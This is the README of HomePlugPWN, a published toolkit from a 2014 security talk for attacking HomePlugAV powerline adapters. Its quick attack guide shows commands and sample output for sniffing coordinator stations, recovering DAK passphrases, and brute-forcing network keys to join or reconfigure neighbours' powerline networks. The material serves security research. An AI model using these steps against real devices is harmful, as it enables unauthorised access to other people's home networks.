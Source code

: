 HomePlugPWN
===========

HomePlugAV PLC tools presented at NoSuchCon 2014: http://www.nosuchcon.org/talks/2014/D1_03_Sebastien_Dudek_HomePlugAV_PLC.pdf

## Requirements 
- Python >= 2.6
- Scapy 2.x
- Promiscous mode for Sniff Indicate packets

## Tools

- HomeplugAV.py scapy Layer: create and craft your own HomePlugAV packets
- discover.py: sends 'GetDeviceTypeRequest' in broadcast to discover PLCs of the same AVLN
- genDAK.py: derives MAC address to get a Qualcomm DAK passhrase
- PBKDF1.py: hashes the DAK or NMK passhrase using the PBKDF1
- quickKODAK.py: performs a KODAK bruteforce on powerline
- plcmon.py: enables 'Sniffer mode' and uses Sniffer Indicate packet to retrieve CCos MAC address

## Efficient remote attack quick guide

First we plug our device to the powerline and sniff for every possible CCo:

```bash
python plcmon.py 
[+] Enabling sniff mode
Sent 1 packets.
[+] Listening for CCo station...
	 Found CCo: 44:94:fc:56:ff:34 (DAK: RMHT-ILPO-TYMN-IIXY)
         [...]
```

The tool recovers also the DAK passphrase directly. 

Too change the NMK of the CCos to have a chance to connect to neighbor(s) LAN, we can send the SetEncryptionKeyRequest to the CCos:

```bash
python quickKODAK.py -i eth0 -t 4494fc56ff34
Sent 1 packets.
``` 

If you want to reconfigure all device, skip 2-3 of the MAC address found previously as follows:

```bash
python quickKODAK.py -i eth0 -t 4494fc56
Sent 1 packets.
```

This will bruteforce the 2 last bytes, generating a new DAK and sending it in broadcast for every combinaison.

## Licence

HomePlugPWN tools including the HomePlugAV scapy Layer are under the **GPLv2**

## Problems?

- Give us your feedback ;)

## Acknowledgements

* Xavier Carcelle for his book (Power Line Communications in Practice), and his Framework FAIFA
* Ben Tasker for finding CCos MAC addresses in Sniff Indicate packets
* Open-PLC-Utils : https://github.com/qca/open-plc-utils
* Netgear and TP-Link utilities
